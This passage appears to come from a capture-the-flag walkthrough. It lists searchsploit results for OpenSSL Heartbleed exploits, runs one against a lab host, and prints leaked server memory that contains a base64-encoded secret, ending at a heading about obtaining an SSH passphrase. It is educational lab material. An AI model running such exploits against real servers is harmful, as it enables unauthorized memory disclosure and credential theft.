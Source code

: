 ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                    |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSSL 1.0.1f TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure (Multiple SSL/TLS Versions)                                                                               | multiple/remote/32764.py
OpenSSL TLS Heartbeat Extension - 'Heartbleed' Information Leak (1)                                                                                                               | multiple/remote/32791.c
OpenSSL TLS Heartbeat Extension - 'Heartbleed' Information Leak (2) (DTLS Support)                                                                                                | multiple/remote/32998.c
OpenSSL TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure                                                                                                                  | multiple/remote/32745.py
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
──(kali㉿kali)-[~/Desktop]
└─$ python 32764.py 10.10.10.79
Trying SSL 3.0...
Connecting...
Sending Client Hello...
Waiting for Server Hello...
 ... received message: type = 22, ver = 0300, length = 94
 ... received message: type = 22, ver = 0300, length = 885
 ... received message: type = 22, ver = 0300, length = 331
 ... received message: type = 22, ver = 0300, length = 4
Sending heartbeat request...
 ... received message: type = 24, ver = 0300, length = 16384
Received heartbeat response:
  0000: 02 40 00 D8 03 00 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
  0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
  0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
  0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
  0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
  0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.
  0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...
  0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............
  0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
  0090: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  00a0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  00b0: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
  00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
  00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 30 2E 30 2E  ....#.......0.0.
  00e0: 31 2F 64 65 63 6F 64 65 2E 70 68 70 0D 0A 43 6F  1/decode.php..Co
  00f0: 6E 74 65 6E 74 2D 54 79 70 65 3A 20 61 70 70 6C  ntent-Type: appl
  0100: 69 63 61 74 69 6F 6E 2F 78 2D 77 77 77 2D 66 6F  ication/x-www-fo
  0110: 72 6D 2D 75 72 6C 65 6E 63 6F 64 65 64 0D 0A 43  rm-urlencoded..C
  0120: 6F 6E 74 65 6E 74 2D 4C 65 6E 67 74 68 3A 20 34  ontent-Length: 4
  0130: 32 0D 0A 0D 0A 24 74 65 78 74 3D 61 47 56 68 63  2....$text=aGVhc
  0140: 6E 52 69 62 47 56 6C 5A 47 4A 6C 62 47 6C 6C 64  nRibGVlZGJlbGlld
  0150: 6D 56 30 61 47 56 6F 65 58 42 6C 43 67 3D 3D 7D  mV0aGVoeXBlCg==}
  0160: 74 63 2C C1 63 71 6E 0F 2C 84 31 A1 3D 02 94 C9  tc,.cqn.,.1.=...
WARNING: server returned more data than it should - server is vulnerable!
```

### Obtaining SSH passphrase
```